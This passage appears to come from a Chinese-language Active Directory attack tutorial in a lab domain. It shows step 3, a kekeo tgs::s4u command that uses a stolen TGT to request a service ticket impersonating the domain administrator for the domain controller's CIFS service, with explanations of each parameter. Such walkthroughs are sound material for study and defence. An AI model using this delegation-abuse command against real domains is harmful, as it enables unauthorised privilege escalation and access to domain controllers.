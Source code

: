 [![](assets/1705982146-00e0db6fd8fc6e6aa66332b04e190eac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223108-8d3ca778-b7a0-1.png)  
Step 3：使用 kekeo 申请 TGS 票据

```bash
tgs::s4u /tgt:TGT_al2ex@HACKE.TESTLAB_krbtgt~hacke.testlab@HACKE.TESTLAB.kirbi /user:administrator@hacke.testlab /service:cifs/dc.hacke.testlab

#参数说明
/tgt:上一步通过 kekeo 生成的 tgt 票据
/user:想要伪造的用户名写全称（用户名@域名）
/service:想要伪造访问的服务名（服务名/主机的 FQDN 名称）
```
